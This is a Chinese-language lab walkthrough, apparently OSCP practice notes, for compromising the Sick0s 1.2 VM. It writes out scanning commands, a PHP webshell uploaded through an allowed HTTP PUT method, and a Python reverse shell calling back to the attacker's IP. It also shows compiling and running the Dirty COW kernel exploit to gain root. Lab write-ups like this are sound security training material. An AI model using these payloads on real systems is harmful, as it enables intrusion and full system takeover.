 # 一、信息收集

1. 主机发现，如下，经测试发现靶机的ip为192.168.50.157
   
   ```shell
   sudo arp-scan -l
   ```
   
   ![1.png](/Users/mac/notebook/NoteBook/OSCP/img/Sick0s1.2/1.png)

2. 端口扫描，只开放了22端口和80端口
   
   ```shell
   nmap -p- -sV -sC 192.168.50.157
   ```
   
   ![2.png](/Users/mac/notebook/NoteBook/OSCP/img/Sick0s1.2/2.png)

3. 识别80端口web服务，如下，web中间件为lighttpd 1.4.28，php 5.3.10
   
   ```shell
   whatweb http://192.168.50.157
   ```
   
   ![3.png](/Users/mac/notebook/NoteBook/OSCP/img/Sick0s1.2/3.png)

4. 扫描web目录，发现有一个test目录，但是test目录下没有东西
   
   ```shell
   gobuster dir -w /usr/share/dirb/wordlists/big.txt -u http://192.168.50.157
   ```
   
   ![4.png](/Users/mac/notebook/NoteBook/OSCP/img/Sick0s1.2/4.png)

5. 使用nmap扫一下这个端口和目录支持的http方法
   
   ```shell
   nmap -p 80 192.168.50.157 --script http-methods
   ```
   
   ![5.png](/Users/mac/notebook/NoteBook/OSCP/img/Sick0s1.2/5.png)

6. 发现支持options方法，http的options方法可用来探测服务器对http资源所支持的方法，使用curl探测一下http是否可写
   
   ```shell
   curl -v -X OPTIONS http://192.168.50.157/test/
   ```
   
   ![6.png](/Users/mac/notebook/NoteBook/OSCP/img/Sick0s1.2/6.png)

7. 如上，发现支持PUT方法，说明test目录可写

# 二、getshell

1. 直接写一个webshell上去，如下，查看test目录，发现写入成功
   
   ```shell
   curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://192.168.50.157/test/shell.php
   ```
   
   ![7.png](/Users/mac/notebook/NoteBook/OSCP/img/Sick0s1.2/7.png)

2. 利用命令执行反弹shell
   
   ```shell
   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.50.215",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 
   ```
   
   ![8.png](/Users/mac/notebook/NoteBook/OSCP/img/Sick0s1.2/8.png)

3. 成功getshell，获取到ww-data权限

# 三、权限提升

1. 查看系统内核版本
   
   ```shell
   uname -a
   lsb_release -a
   ```
   
   ![9.png](/Users/mac/notebook/NoteBook/OSCP/img/Sick0s1.2/9.png)

2. 发现系统为ubuntu 12.04.4，内核版本为linux 3.11.0-15，这个版本的ubuntu存在脏牛提权漏洞CVE-2016-5195，在exploitdb上搜索该cve，发现有exp脚本
   
   ![10.png](/Users/mac/notebook/NoteBook/OSCP/img/Sick0s1.2/10.png)

3. 接下来就简单了，直接脏牛一把梭，把exp脚本上传到靶机上
   
   ```shell
   curl --upload-file 40839. -v --url http://192.168.50.157/test/40839. -0 --http1.0
   ```
   
   ![11.png](/Users/mac/notebook/NoteBook/OSCP/img/Sick0s1.2/11.png)
           

4. 编译exp，会出现报错，需要链接一下依赖库
   
   ```shell
   gcc 40839.c -pthread -lcrypt -o exp
   ```
   
   ![12.png](/Users/mac/notebook/NoteBook/OSCP/img/Sick0s1.2/12.png)

5. 执行exp，输入一个新密码
   
   ![13.png](/Users/mac/notebook/NoteBook/OSCP/img/Sick0s1.2/13.png)

6. ssh连接新用户firefart，密码就是刚刚exp中输入的密码，成功获取root权限，但是注意，这个exp可能会让靶机系统崩溃
   
   ![14.png](/Users/mac/notebook/NoteBook/OSCP/img/Sick0s1.2/14.png)